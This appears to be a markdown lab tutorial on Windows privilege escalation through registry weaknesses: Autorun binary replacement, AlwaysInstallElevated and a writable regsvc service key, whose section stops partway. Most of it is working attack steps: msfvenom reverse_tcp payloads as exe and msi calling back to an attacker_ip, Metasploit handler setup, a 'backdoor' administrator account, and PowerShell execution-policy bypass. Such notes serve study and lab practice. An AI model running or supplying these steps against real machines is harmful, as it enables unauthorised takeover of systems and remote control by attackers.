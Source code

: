 # Registry

The Windows Registry is a central hierarchical database in Microsoft Windows that stores configuration settings and options for:

- The operating system (Windows itself)
- Installed software and applications
- User profiles and preferences
- Hardware devices and drivers

In simple words it is brain or blueprint for windows, where almost everything about how the system runs is recorded

## Autorun 

Autorun refers to specific registry keys that tell the operating system to automatically start a program, service, or script when the system boots or when a user logs in. We are going to see any thing run automatically have any permission that is useful for our exploitation 

**Victim**

1. Open command prompt and type: C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe
2. In Autoruns, click on the ‘Logon’ tab
3. From the listed results, notice that the “My Program” entry is pointing to “C:\Program Files\Autorun Program\program.exe”.
4. In command prompt type: C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"
5. From the output, notice that the “Everyone” user group has “FILE_ALL_ACCESS” permission on the “program.exe” file

here the autorun, accesschk are cis internal tools 

Now we found the file, so we moving for exploitation phase 

**Attacker**

```
// generate a payload for windows reverse shell 
msfvenom -p windows/meterpreter/reverse_tcp lhost=attacker_ip -f exe -o program.exe

msfconsole 
use multi/handler 
set payload windows/meterpreter/reverse_tcp 
set lhost attacker_ip 
option 
run 
```

Now host the payload program.exe using python server in the attacker side and download it in the victim side and replace with the program.exe in the AutoRun folder 

Now log out and sign in again in as high privileged user and now check the meterpreter we gained the reverse shell 

```
// we have gained reverse shell as administrator
getuid 
administrator
```

## Always Install Elevated 

The AlwaysInstallElevated setting is a Windows policy that affects how MSI (Microsoft Installer) packages are installed. When this policy is enabled, Windows Installer packages (.msi files) will always be installed with elevated (Administrator) privileges, even if the user who launches them does not have administrative rights. (AlwaysInstallElevated = 1 for this attack) 

now login as low privileged user in the victim machine 

**Victim**

```
// open cmd and type 
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
reg query HKCU\Software\Policies\Microsoft\Windows\Installer

// here we can see for both AlwaysInstallElevated is set to 1 so attack is possible 

// To understand the severity we can make a user add which run as high privilege and we can set the new user as administrator
Write-UserAddMSI 

// UserAdd.msi is generated running it we can set a new administrator called backdoor 
net localgroup administrator
backdoor
Administrator 
```

**Attacker** 

Generating the payload 

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=attacker_ip -f msi -o setup.msi
```

```
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost attacker_ip
run 
```

Now transfer the payload setup.msi to the victim windows machine using python server and run the setup.msi in the victim machine. now we gained the reverse shell 

```
// we gain the reverse shell as system 
getuid 
server username: NT AUTHORITY\SYSTEM 

// if we gained reverse shell as low level user then background the session of low level user 
background 
use exploit/windows/local/always_install_elevated 
set session 1 
run
```

## regsvc 

It is a Windows service that allows remote users (with proper permissions) to connect to the Windows Registry and read/write keys over the network 

**Victim** 

```
// open the powershell with bypassing the execution restrictions 
powershell -ep bypass 

// now see there is full control for regsvc for authority\system 
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl

// so we found it contains full control so we going add a malicious service which add a administrator account for the attacker 
```
